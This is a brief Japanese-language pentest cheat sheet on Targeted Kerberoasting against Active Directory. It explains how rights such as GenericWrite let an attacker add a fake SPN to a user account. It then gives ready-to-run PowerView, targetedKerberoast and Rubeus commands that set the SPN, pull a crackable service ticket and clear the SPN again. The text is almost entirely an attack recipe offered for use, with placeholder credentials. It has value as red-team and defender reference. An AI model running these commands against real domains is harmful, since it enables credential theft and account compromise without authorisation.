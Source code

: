 # TargetedKerberoast

この悪用は、`GenericAll`、`GenericWrite`、`WriteProperty`、またはValidated-SPNをターゲットに持つオブジェクトを制御するときに実行できる。通常、`Account Operator`グループのメンバはこれらの権限を持つ。
攻撃者はそのアカウントに SPN (ServicePrincipalName) を追加できる。アカウントがSPNを持つと、そのアカウントはKerberoastingに対して脆弱になる。

```
# 対象アカウントにSPNがないことを確認
Get-DomainUser '<USERNAME>' | Select serviceprincipalname

# SPNを設定する
Set-DomainObject -Identity '<USERNAME>' -Set @{serviceprincipalname="fake/NOTHING"}

# 対象アカウントのSPNをクリアする
Get-DomainUser '<USERNAME>' | Select serviceprincipalname Set-DomainObject -Identity '<USERNAME>' -Clear serviceprincipalname
```

# Targeted Kerberoastingを実行する

## Linux

```
targetedKerberoast -v -d '<DOMAIN>' -u '<USERNAME>' -p '<PASSWORD>' --dc-ip <DC_IP>
```

## Windows

### PowerView

```
Get-DomainUser '<USERNAME>' | Get-DomainSPNTicket | fl
```

### Rubeus

```
Rubeus.exe kerberoast /user:<USERNAME> /nowrap
```
